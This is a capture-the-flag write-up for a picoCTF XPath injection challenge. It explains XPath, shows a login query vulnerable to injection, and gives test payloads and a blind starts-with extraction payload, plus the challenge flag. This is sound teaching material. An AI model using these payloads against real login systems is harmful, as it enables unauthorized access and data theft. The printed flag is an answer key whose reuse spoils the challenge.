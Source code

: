 http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/




This document is talking about 'what is xpath, and how to use it'.
If you want to understand how to get the flag, try to read to code xpathctf.py

XPath Example:
```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node
```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']
``` 

If you want to list all of the text nodes, you can use wildcards "//\*", and [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```

You can use this payload to test, is it have xpath vulnerability:

```
' or '1' or '
admin' or '1' or '
```


So, the final payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b
```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']
```

The priority of operator is:

<img width="300" alt="截圖 2022-03-09 下午2 57 50" src="https://user-images.githubusercontent.com/37798944/157388893-df93956d-ca48-44c7-a866-04e6ca6b198e.png">




First time run the xpathctf.py you can find all the nodes. But it needs lot of time. Maybe using multithreat is better....


<img width="1311" alt="截圖 2022-03-11 上午10 47 41" src="https://user-images.githubusercontent.com/37798944/157793080-641a75a1-6539-4e07-8ff4-3239e0910e85.png">


Here you got the part of FLAG "picoCTF{".
If edit the python file, let it start from "picoCTF{", you will get flag faster.
Run the xpathctf2.py, got the flag!

picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_28cb0023}



